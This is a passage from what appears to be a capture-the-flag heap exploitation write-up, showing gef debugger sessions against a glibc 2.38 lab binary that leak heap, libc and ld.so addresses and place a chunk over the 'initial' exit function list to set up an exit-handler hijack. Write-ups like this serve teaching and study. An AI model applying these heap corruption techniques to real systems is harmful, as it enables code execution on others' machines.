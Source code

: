 So we see, our two large bin chunks, which have heap/libc addresses for us to leak. Next up, let's see the chunk we allocate to within libc for the linker (`ld.so`):

```
gef➤  p (char *)chunks
$1 = 0x55ac684196c0 "\360Тќ\177"
gef➤  search-pattern 0x55ac684196c0
[+] Searching '\xc0\x96\x41\x68\xac\x55' in memory
[+] In '/Hackery/shogun/challs/05/chall-05'(0x55ac67ec6000-0x55ac67ec7000), permission=rw-
  0x55ac67ec6040 - 0x55ac67ec6058  →   "\xc0\x96\x41\x68\xac\x55[...]"
gef➤  x/10g 0x55ac67ec6040
0x55ac67ec6040 <chunks>:  0x55ac684196c0  0x55ac68419ae0
0x55ac67ec6050 <chunks+16>: 0x55ac68419b70  0x55ac68419f90
0x55ac67ec6060 <chunks+32>: 0x55ac6841a020  0x55ac68419c20
0x55ac67ec6070 <chunks+48>: 0x7f9cd1a2c1b0  0x0
0x55ac67ec6080 <chunks+64>: 0x0 0x0
gef➤  x/10g 0x7f9cd1a2c1b0
0x7f9cd1a2c1b0 <_dl_allocate_tls_init@got.plt>: 0x3030303030303030  0x3030303030303030
0x7f9cd1a2c1c0 <*ABS*@got.plt>: 0xa30303030303030 0x7f9cd1b55340
0x7f9cd1a2c1d0 <*ABS*@got.plt>: 0x7f9cd194f0e0  0x0
0x7f9cd1a2c1e0 <__fpu_control>: 0x400000037f  0x22
0x7f9cd1a2c1f0: 0x0 0x0
gef➤  vmmap 0x7f9cd1b55340
[ Legend:  Code | Heap | Stack ]
Start           End             Offset          Perm Path
0x00007f9cd1b3f000 0x00007f9cd1b65000 0x0000000000001000 r-x /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
```

So we see here, the chunk we allocated at `0x7f9cd1a2c1b0`, will give us the `ld.so` address `0x7f9cd1b55340`. With this, we know the address of `_dl_fini`:


```
gef➤  x/10g 0x55ac67ec6040
0x55ac67ec6040 <chunks>:  0x55ac684196c0  0x55ac68419f90
0x55ac67ec6050 <chunks+16>: 0x55ac68419b70  0x7f9cd1a2e1a0
0x55ac67ec6060 <chunks+32>: 0x55ac6841a020  0x55ac68419c20
0x55ac67ec6070 <chunks+48>: 0x7f9cd1a2c1b0  0x0
0x55ac67ec6080 <chunks+64>: 0x0 0x0
gef➤  x/10g 0x7f9cd1a2e1a0
0x7f9cd1a2e1a0 <initial>: 0x0 0x0
0x7f9cd1a2e1b0 <initial+16>:  0x4 0xa7928033268a9b5a
0x7f9cd1a2e1c0 <initial+32>:  0x0 0x0
0x7f9cd1a2e1d0 <initial+48>:  0x0 0x0
0x7f9cd1a2e1e0 <initial+64>:  0x0 0x0
```

Next up, we see we have allocated a chunk to `initial`, which is the default first exit function list:

```
gef➤  x/10g 0x55ac67ec6040
0x55ac67ec6040 <chunks>:  0x55ac684196c0  0x55ac68419f90
0x55ac67ec6050 <chunks+16>: 0x55ac68419b70  0x7f9cd1a2e1a0
0x55ac67ec6060 <chunks+32>: 0x55ac6841a020  0x55ac68419c20
0x55ac67ec6070 <chunks+48>: 0x7f9cd1a2c1b0  0x0
0x55ac67ec6080 <chunks+64>: 0x0 0x0
gef➤  x/10g 0x7f9cd1a2e1a0
0x7f9cd1a2e1a0 <initial>: 0x3030303030303030  0x3030303030303030
0x7f9cd1a2e1b0 <initial+16>:  0xa30303030303030 0xa7928033268a9b5a
0x7f9cd1a2e1c0 <initial+32>:  0x0 0x0
0x7f9cd1a2e1d0 <initial+48>:  0x0 0x0
0x7f9cd1a2e1e0 <initial+64>:  0x0 0x0
```
